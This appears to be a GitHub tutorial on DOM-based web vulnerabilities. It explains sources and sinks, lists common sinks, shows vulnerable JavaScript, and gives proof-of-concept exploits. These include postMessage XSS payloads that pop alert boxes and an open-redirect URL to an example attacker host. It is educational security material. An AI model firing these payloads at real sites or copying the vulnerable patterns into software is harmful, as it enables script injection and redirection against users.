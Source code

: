 # What is DOM 

**There is two terms to find DOM Vulnerbility**
  1- Source
  2- Sink
 
### Source:
 ```
 A source is a JavaScript property that accepts data that is potentially attacker-controlled. An example of a 
 source is the `location.search` property because it reads input from the query string, which is relatively simple 
 for an attacker to control. Ultimately, any property that can be controlled by the attacker is a potential source. 
 This includes the referring URL (exposed by the `document.referrer` string), the user's cookies (exposed by the 
 `document.cookie` string), and web messages.**
 ```
### Sink: 
  ```
  A sink is a potentially dangerous JavaScript function or DOM object that can cause undesirable effects if 
  attacker-controlled data is passed to it. For example, the `eval()` function is a sink because it processes 
  the argument that is passed to it as JavaScript. An example of an HTML sink is `document.body.innerHTML` because it
  potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
  ```
The most common source is the URL, which is typically accessed with the `location` object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL. Consider the following code:
```js
goto = location.hash.slice(1)
if (goto.startsWith('https:')) {
  location = goto;
}
```
This is vulnerable to DOM-based open redirection because the `location.hash` source is handled in an unsafe way. If the URL contains a hash fragment that starts with `https:`, this code extracts the value of the `location.hash` property and sets it as the location property of the window. An attacker could exploit this vulnerability by constructing the following URL:
 - ```https://www.innocent-website.com/example#https://www.evil-user.net```
 
 ## Which sink can lead to DOM-based Vulnerabilities?
 
 #### The following list provides a quick overview of common DOM-based vulnerabilities and an example of a sink that can lead to each one. For a more comprehensive list of relevant sinks, please refer to the vulnerability-specific pages by clicking the links below.
 
|DOM-based vulnerability		|		Example sink            |     
|-------------------------------|-------------------------------|		
|[DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)            					|		document.write()		|			
|[Open redirection](https://portswigger.net/web-security/dom-based/open-redirection)			|		window.location			|			
|[Cookie manipulation ](https://portswigger.net/web-security/dom-based/cookie-manipulation)		|		document.cookie			|		
|[JavaScript injection](https://portswigger.net/web-security/dom-based/javascript-injection)			|		eval()					|
|[Document-domain manipulation](https://portswigger.net/web-security/dom-based/document-domain-manipulation)	|		document.domain				|	
|[WebSocket-URL poisoning](https://portswigger.net/web-security/dom-based/websocket-url-poisoning)		|		WebSocket()					|
|[Link manipulation](https://portswigger.net/web-security/dom-based/link-manipulation)				|		element.src 				|	
|[Web message manipulation](https://portswigger.net/web-security/dom-based/web-message-manipulation)		|		postMessage()				|	
|[Ajax request-header manipulation](https://portswigger.net/web-security/dom-based/ajax-request-header-manipulation)|		setRequestHeader()			|	
|[Local file-path manipulation](https://portswigger.net/web-security/dom-based/local-file-path-manipulation)	|		FileReader.readAsText()		|		
|[Client-side SQL injection](https://portswigger.net/web-security/dom-based/client-side-sql-injection)		|		ExecuteSql()				|	
|[HTML5-storage manipulation](https://portswigger.net/web-security/dom-based/html5-storage-manipulation)		|		sessionStorage.setItem()	|		
|[Client-side XPath injection](https://portswigger.net/web-security/dom-based/client-side-xpath-injection)	|		document.evaluate()			|	
|[Client-side JSON injection](https://portswigger.net/web-security/dom-based/client-side-json-injection)		|		JSON.parse()				|		
|[DOM-data manipulation](https://portswigger.net/web-security/dom-based/dom-data-manipulation)			|		element.setAttribute()		|			
|[Denial of service](https://portswigger.net/web-security/dom-based/denial-of-service)				|		RegExp()					|
 
## Analysis and Exploit : eval 
**Here is vulnerable code**
```js
if (p27 !== null) {
      eval('n.p=' + p27.toLowerCase());
      document.getElementById('h1').innerHTML = 'XSS ' + n.p;
   }
```
_Analysis:_ `The use of the eval() function can be a security risk because it executes any JavaScript code passed to it as a string. 
In this case, the value of the "p27" variable is being passed to the eval() function, which is then being used to set the value of a 
property on the "n" object. If the value of "p27" is coming from an untrusted source, such as user input, it could potentially be a 
source of a code injection vulnerability.`


## Exploiting : Cookie Manipulation 
  ```html
  <script>
       document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
   </script>
  ```
   If the website unsafely reflects values from cookies without HTML-encoding them, an attacker can use cookie-manipulation techniques to exploit this behavior.

 
 ## Exploiting web message 
 
 **1- Exploit the postMessage Vulnerability:**
  ```js
  Here is vulnerable code:
  window.addEventListener('message', function(e) {
          document.getElementById('ads').innerHTML = e.data;
   })

  ```
  *Exploit:*
  
    - Goto the source tab add breakpoint to document.getElement
    - Goto the console tab
    - window.postMessage('<img src=x onerror=alert(1)>','*')
    - You should get alert popup


**2- Explot postMessage Vulnerability:**

  Here is vulnerable code:
  ```js
  window.addEventListener('message', function(e) {
      var url = e.data;
          if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                  location.href = url;
           }
  }, false);
  ```

   *Analysis:*
    This script sends a web message containing an arbitrary JavaScript payload, along with the string "http:". The second argument 
    specifies that any targetOrigin is allowed for the web message.

   When the iframe loads, the postMessage() method sends the JavaScript payload to the main page. The event listener spots the 
   "http:" string and proceeds to send the payload to the location.href sink, where the print() function is called.

  **Exploit:** 
  
    1- Goto the developer tool in source tab add breakpoint to the `url` var.   
    2- Then goto the console tab type 
        window.postMessage('javascript:alert(1)//http:','*')
    3- You can Iframe to exploit for poc


 **3. Exploiting postMessage DOM using JSON**
 
   Here is Vulnerable Code
   ```js
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
```
**Analysis:**

  Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using `JSON.parse()`. In the JavaScript, we can see that the event listener expects a type property and that the `load-channel` case of the `switch` statement changes the `iframe` `src` attribute.

  When the `iframe` we constructed loads, the `postMessage()` method sends a web message to the home page with the type `load-channel`. The event listener receives the message and parses it using `JSON.parse()` before sending it to the `switch.`

  The switch triggers the `load-channel` case, which assigns the url property of the message to the src attribute of the `ACMEplayer.element` `iframe`. However, in this case, the `url` property of the message actually contains our JavaScript payload.

  As the second argument specifies that any `targetOrigin` is allowed for the web message, and the event handler does not contain any form of origin check, the payload is set as the src of the `ACMEplayer.element` `iframe`. The `print()` function is called when the victim loads the page in their browser.

**Exploit:**
  -  Goto the source tab add break point to `var  iframe`.
  -  Then switch to console tab and write down.
      window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}","*")
  - You will get alert window.
  - Iframe this exploit for poc.

 
 
 
 
 
 
 
 
